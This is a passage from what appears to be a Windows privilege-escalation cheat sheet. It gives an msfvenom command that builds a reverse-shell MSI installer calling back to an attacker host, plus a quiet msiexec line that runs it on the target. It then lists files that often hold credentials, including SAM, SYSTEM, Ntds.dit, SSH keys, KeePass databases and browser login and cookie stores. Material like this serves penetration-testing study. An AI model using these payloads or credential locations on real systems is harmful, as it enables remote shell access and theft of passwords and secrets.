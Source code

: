     ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi
    ```
4.  Copy the reverse.msi across to the Windows target, start a listener in your host, and run the installer to trigger the exploit:

    ```
    msiexec /quiet /qn /i C:\Users\Public\reverse.msi
    ```

## Passwords, Hashes, or Credentials

Sometimes administrators re-use passwords or leave them on computers in easily accessible places. Windows is particularly vulnerable to this since various features of the operating system store credentials insecurely.

### Common Files Containing Credentials

This is a list of known files that contained passwords in clear-text or Base64:

```
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history
vnc.ini, ultravnc.ini, *vnc*
web.config
php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)
SiteList.xml #McAfee
ConsoleHost_history.txt #PS-History
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
setupinfo
setupinfo.bak
key3.db         #Firefox
key4.db         #Firefox
places.sqlite   #Firefox
"Login Data"    #Chrome
Cookies         #Chrome
Bookmarks       #Chrome
History         #Chrome
```